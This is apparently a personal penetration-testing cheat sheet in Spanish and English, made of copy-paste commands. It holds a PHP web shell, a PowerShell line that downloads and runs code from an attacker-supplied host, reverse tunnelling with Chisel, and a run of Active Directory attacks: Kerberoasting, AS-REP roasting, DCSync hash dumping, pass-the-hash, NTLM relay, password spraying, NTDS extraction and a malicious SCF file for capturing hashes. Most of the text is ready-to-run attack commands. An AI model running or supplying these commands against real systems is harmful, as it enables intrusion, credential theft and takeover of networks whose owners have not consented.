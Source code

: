 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

Web Shell .aspx
```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

### wfuzz

Subdomaing Discovering

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Directory Listing

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://Domain-or-IP/FUZZ
```
### Gobuster

Subdomaing Discovering

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
Directory Listing

```
gobuster dir -e -u http://Domain-or-IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# Active Directory (AD)

Kerbrute

```
kerbrute -users userlist.txt -dc-ip IP -domain domain.local
```
ASREPRoasting

```
GetNPUsers.py -dc-ip IP domain.local/user -outputfile hashes.asreproast
```
Kerberoastin

```
GetUserSPNs.py DC-IP\user:password
```
DRSUAPI (DCSync)

```
secretsdump.py domain.local/USER:PASSWORD@IP
```
Pass the hash

```
evil-winrm -i IP -u user -H 'NTHash'
```
```
psexec.py domain.local/user@ip -hashes 'LMHASH:NTHASH'
```
```
wmiexec.py user@IP -hashes 'LMHASH:NTHASH'
```
SMB Relay

```
responder -I  NETINTERFACE rdw
```
NTLM Relay [responder.conf con smb y https en "off" (SAM dumping without 'c' flag)]

```
python3 ntlmrelayx.py -tf targets.txt -smb2support -c "command"
```
Domain Host Discovery

```
crackmapexec smb network/address
```
User & Password Spraying

```
crackmapexec smb network/address -u users -p passwords
```
NTDS dumping

```
crackmapexec smb network/address -u users -p passwords --ntds vss
```
Userenum with RPC (-N para Null Session)

```
rpcclient -U 'domain.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'
```
Descripcion usuarios with RPC

```
for rid in $(rpcclient -U 'dominio.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'| tr -d '[]'); do echo -e "\n[+] Para el RID $rid:\n";  rpcclient -U 'dominio.local\user%password' IP -c "queryuser $rid" | grep -E -i "user name|description" ;done
```
ldapdomaindump

```
service apache2 start
```
```
ldapdomaindump -u 'domain.local\user' -p 'password' targetIP
```
Malicious SCF File

```
[Shell]
Command=2
IconFile=\\IP\smbfolder\CronoX.ico
[Taskbar]
Command=ToggleDesktop
```
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
